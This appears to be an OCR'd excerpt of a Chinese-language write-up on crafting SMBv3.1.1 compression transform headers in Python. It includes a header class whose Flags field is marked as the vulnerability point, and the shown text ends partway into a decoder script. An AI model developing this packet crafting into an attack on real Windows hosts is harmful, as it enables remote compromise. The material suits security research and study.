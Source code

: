 参考文档  
https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-smb2/1d435f21-9a21-4f4c-828e-624a176cf2a0

可以尝试构造 SMB2CompressionTransformHeader

`SMB2CompressionTransformHeader`

```
class SMB2CompressionTransformHeader(Structure):
    def \_\_init\_\_(self):
        self.fields = OrderedDict(\[
            ('protocol\_id', BytesField(
                size=4,
                default=b"\\xfcSMB"
            )),
            ('OriginalCompressedSegmentSize', IntField(
                size=4,
                default=0x00
            )),
            ('CompressionAlgorithm', IntField(
                size=2,
                default=0x0002
            )),
            ('Flags', IntField(
                size=2,
                default=0x0000 #其实漏洞点在这里
            )),
            ('Length', IntField(
                size=4,
                default=0x00
            )),

        \])
        super(SMB2CompressionTransformHeader, self).\_\_init\_\_()


```

可以构造出来一个符合 smbv3.1.1 CompressionTransformHeader 的包

```
import uuid
from collections import OrderedDict
import socket

from smbprotocol import Commands

from smbprotocol.connection import \*

from smbprotocol.structure import BytesField, IntField, Structure
#!/usr/bin/env python3
from pprint import pprint as P
import struct


def decode(ibuf):
    obuf = bytearray()
    BufferedFlags = 0
    BufferedFlagCount = 0
    InputPosition = 0
    OutputPosition = 0
    LastLengthHalfByte = 0

    def output(x):
        obuf.append(x)
```